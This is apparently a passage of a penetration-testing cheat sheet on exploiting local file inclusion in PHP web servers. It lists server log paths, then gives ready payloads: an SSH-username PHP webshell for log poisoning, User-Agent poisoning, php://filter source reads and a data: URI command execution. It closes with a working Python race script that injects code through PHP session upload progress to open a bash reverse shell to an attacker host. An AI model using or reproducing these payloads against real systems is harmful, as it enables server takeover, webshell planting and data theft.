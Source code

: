         - `/var/log/auth.log`
        - `/var/log/httpd/access_log`
        - `/var/log/apache/access_log `
        - `/var/log/apache2/access_log`
        - `/var/www/logs/access_log`
        - `/etc/httpd/logs/access_log`
        - `/usr/local/apache/logs/access_ log`
    - Apache (Windows)
        - `C:\Program Files\Apache Group\Apache\logs\access.log`
        - `C:\Program Files\Apache Group\Apache\logs\error.log`
    - Xampp
        - `C:\xampp\apache\logs\access.log`
        - `C:\xampp\apache\logs\error.log`
    - IIS
        - `C:\WINDOWS\system32\Logfiles`
        - `%SystemDrive%\inetpub\logs\LogFiles`
    - Nginx
        - `/usr/local/nginx/logs`
        - `/opt/nginx/logs/access.log`
- Log Poisin
    - If auth.log can be LFI
        - `ssh '<?php system($_GET["meow"])?>'@{IP}`
- User-Agent Poisoning
    - If `/proc/self/environ` can be read
    - `User-Agent : {webshell}`
    - https://www.youtube.com/watch?v=ttTVNcPnsJY
- Encode File
    - `php://filter/convert.base64-encode/resource={target}.php`
- Default Session Path
    - `/var/lib/php/sessions/sess_{sess_name}`
- LFI to RCE
    - Log Poisoning
        - Try LFI read the log file
        - `http://{IP}/<?php system("{command}");?>.html`
        - Read log file to trigger RCE
  - One Line
    - `http://{IP}/{target}?file=data:text/plain,<?php echo system("{command}");>`
  - LFI_2_RCE.py
```python
import grequests
sess_name = 'meowmeow'
sess_path = f'/var/lib/php/sessions/sess_{sess_name}'
base_url = 'http://{IP}/{PATH}'
param = "?p=source&file="

# code = "file_put_contents('/tmp/shell.php','<?php system($_GET[a])');"
code = '''system("bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'");'''

while True:
    req = [grequests.post(base_url,
                          files={'f': "A"*0xffff},
                          data={'PHP_SESSION_UPLOAD_PROGRESS': f"pwned:<?php {code} ?>"},
                          cookies={'PHPSESSID': sess_name}),
           grequests.get(f"{base_url}?{param}={sess_path}")]

    result = grequests.map(req)
    if "pwned" in result[1].text:
        print(result[1].text)
        break
```
- https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/
- https://highon.coffee/blog/lfi-cheat-sheet/
- https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html
